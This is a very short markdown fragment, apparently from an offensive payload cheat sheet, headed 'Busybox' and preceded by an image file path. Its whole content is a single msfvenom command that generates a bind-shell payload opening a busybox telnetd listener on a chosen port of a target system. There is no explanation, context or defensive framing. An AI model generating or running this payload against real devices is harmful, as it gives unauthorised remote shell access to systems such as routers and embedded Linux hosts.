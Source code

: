 # Busybox

## 01 - Generate via `msfvenom`

```
$ msfvenom -p cmd/unix/bind_busybox_telnetd lport=<PORT>
```